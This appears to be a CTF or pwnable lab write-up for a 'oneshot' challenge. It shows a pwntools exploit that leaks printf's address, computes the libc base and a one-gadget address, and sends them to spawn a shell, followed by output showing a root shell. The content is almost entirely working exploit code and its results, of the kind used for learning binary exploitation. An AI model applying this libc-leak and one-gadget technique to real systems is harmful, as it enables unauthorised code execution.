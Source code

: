 ## **Exploit Code**

```python
# Exploit Code
from pwn import *

p = process('./one')
#gdb.attach(p)
printf = int(p.recvline().split(' ')[3],16)

libBase = printf - 0x55800
oneGadget = libBase + 0x4526a

log.info("libBase: " + str(hex(libBase)))
log.info("oneGadget: " + str(hex(oneGadget)))

p.sendline(p64(0xffffffffffffffa8))
#raw_input('1')
p.sendline(p64(oneGadget))
p.interactive()
```

## **Exploit**

```
root@bs-virtual-machine:~/pwnable/oneshot# python exploit.py 
[+] Starting local process './one': pid 4951
[*] libBase: 0x7f078dba4000
[*] oneGadget: 0x7f078dbe926a
[*] Switching to interactive mode
$ 
$ 
$ id
uid=0(root) gid=0(root) groups=0(root)
$ pwd
/root/pwnable/onegadget
```

**References**  
<https://www.lazenca.net/pages/viewpage.action?pageId=16810292>